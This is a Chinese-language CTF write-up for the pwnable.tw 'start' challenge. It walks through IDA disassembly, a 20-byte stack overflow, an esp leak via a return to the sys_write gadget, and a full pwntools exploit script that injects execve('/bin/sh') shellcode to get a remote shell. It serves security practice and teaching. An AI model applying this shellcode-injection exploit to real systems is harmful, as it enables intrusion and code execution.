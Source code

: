 ```yaml
---
title: pwnable.tw start
tags: [CTF, pwn]
layout: post
categories: writeups
---
```


用IDA打开，程序其实是单纯用汇编写的，通过系统调用来输出`Let's start the CTF:`并获取输入。

``` asm
.text:08048060 _start          proc near
.text:08048060                 push    esp
.text:08048061                 push    offset _exit
.text:08048066                 xor     eax, eax
.text:08048068                 xor     ebx, ebx
.text:0804806A                 xor     ecx, ecx
.text:0804806C                 xor     edx, edx
.text:0804806E                 push    3A465443h
.text:08048073                 push    20656874h
.text:08048078                 push    20747261h
.text:0804807D                 push    74732073h
.text:08048082                 push    2774654Ch
.text:08048087                 mov     ecx, esp        ; addr
.text:08048089                 mov     dl, 14h         ; len
.text:0804808B                 mov     bl, 1           ; fd
.text:0804808D                 mov     al, 4
.text:0804808F                 int     80h             ; LINUX - sys_write
.text:08048091                 xor     ebx, ebx
.text:08048093                 mov     dl, 3Ch
.text:08048095                 mov     al, 3
.text:08048097                 int     80h             ; LINUX -
.text:08048099                 add     esp, 14h
.text:0804809C                 retn
```

使用`pattern_create`和`pattern_offset`获取到溢出的偏移是`20`


``` python
ret = 0x08048087

payload1 = 'A' * 20
payload1 += p32(ret)

p.recvuntil(':')
p.sendline(payload1)
leak = u32(p.recv(4))
print hex(leak)
```

在`_start`函数开始进行了`push    esp`和`push    offset _exit`，因此`retn`时会回到`_exit`函数继续执行。

因此，只要我们将这个`retn`返回地址覆盖，就可以转到任意地址继续执行。

这里我们将其覆盖为`0x08048087`，为什么呢？这里是`.text:08048087                 mov     ecx, esp        ; addr`，因为在其下的`sys_write`函数可以取出`esp`赋给`ecx`，然后输出`ecx`的内容。因此我们可以通过这样，泄漏出`saved esp`的位置

``` python
from pwn import *

debug = False
local = False
x86 = True

if debug:
    context.log_level = 'debug'
else:
    context.log_level = 'info'
if x86:
    libc = ELF('/lib32/libc.so.6')
    #libc = ELF('./libc-2.23.so')
else:
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
if local:
    p = process('./start')
else:
    p = remote('chall.pwnable.tw',10000)


shellcode = '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'
ret = 0x08048087 # mov     ecx, esp
payload1 = 'a'*20 + p32(ret) 
p.recvuntil(':')
p.send(payload1)
leak = u32(p.recv(4)) # leak saved_esp

#leak+20是因为retn前add     esp, 14h
payload2 = 'a'*20 + p32(leak+20)  + shellcode
p.send(payload2)
p.interactive()
```